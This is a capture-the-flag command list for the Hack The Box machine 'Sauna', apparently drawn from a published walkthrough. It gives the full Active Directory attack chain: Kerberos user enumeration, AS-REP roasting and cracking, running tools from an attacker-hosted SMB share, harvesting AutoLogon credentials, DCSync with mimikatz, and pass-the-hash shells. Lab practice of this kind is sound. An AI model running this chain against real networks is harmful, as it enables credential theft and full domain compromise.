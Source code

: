 Here’s a **complete command list in order** for HTB: **Sauna**, based on 0xdf’s walkthrough. Tools, enumeration, and exploitation steps are included for clarity.

---

## 🧰 Tools Used

- `nmap`
- `ldapsearch`
- `dig`
- `kerbrute`
- `GetNPUsers.py` (from Impacket)
- `hashcat`
- `evil-winrm`
- `smbserver.py` (Impacket)
- `winPEAS.exe`
- `BloodHound`, `SharpHound.exe`, `neo4j`
- `secretsdump.py` (Impacket)
- `mimikatz`
- `wmiexec.py`, `psexec.py` (Impacket)

---

## 📜 All Commands in Order

### 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.10.175
nmap -p 53,80,88,135,139,389,445,464,593,3268,3269,5985 -sC -sV -oA scans/tcpscripts 10.10.10.175
```

### 🌐 [Web Enumeration](HTTP)

```bash
gobuster dir -u http://10.10.10.175/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root -t 40
```

### 🖧 [SMB](SMB) Enumeration

```bash
smbmap -H 10.10.10.175
smbclient -N -L //10.10.10.175
```

### 📚 [LDAP](LDAP.md) Enumeration

```bash
ldapsearch -x -h 10.10.10.175 -s base namingcontexts
ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
```

### 🌐 DNS Zone Transfer Attempt

```bash
dig axfr @10.10.10.175 sauna.htb
dig axfr @10.10.10.175 egotistical-bank.local
```

### 🔍 Kerberos User Brute-Force (User Enum)

```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```

### 🔐 AS-REP Roasting

```bash
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
```

### 🔓 Crack AS-REP Hash

```bash
hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt --force
```

### 🧠 Evil-WinRM Shell as fsmith

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

### 📤 SMB Share to Upload winPEAS

```bash
smbserver.py -username df -password df share . -smb2support
```

From WinRM:
```powershell
net use \\10.10.14.30\share /u:df df
cd \\10.10.14.30\share
.\winPEAS.exe cmd fast > sauna_winpeas_fast
```

### 🔐 Find AutoLogon Creds (WinRM)

```powershell
cd HKLM:\software\microsoft\windows nt\currentversion\winlogon
get-item -path .
```

or

```powershell
reg query "HKLM\software\microsoft\windows nt\currentversion\winlogon"
```

### 🧠 Evil-WinRM Shell as svc_loanmgr

```bash
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

### 🧠 BloodHound Collection

From WinRM:
```powershell
cd \\10.10.14.30\share
.\SharpHound.exe
```

### 🔓 DCSync with secretsdump

```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

### 🛠️ DCSync with mimikatz (WinRM)

```powershell
upload /opt/mimikatz/x64/mimikatz.exe
.\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit
```

### 🖥️ Shell as Administrator with wmiexec

```bash
wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🖥️ Shell as SYSTEM with psexec

```bash
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🔑 Admin Shell via Evil-WinRM

```bash
evil-winrm -i 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```
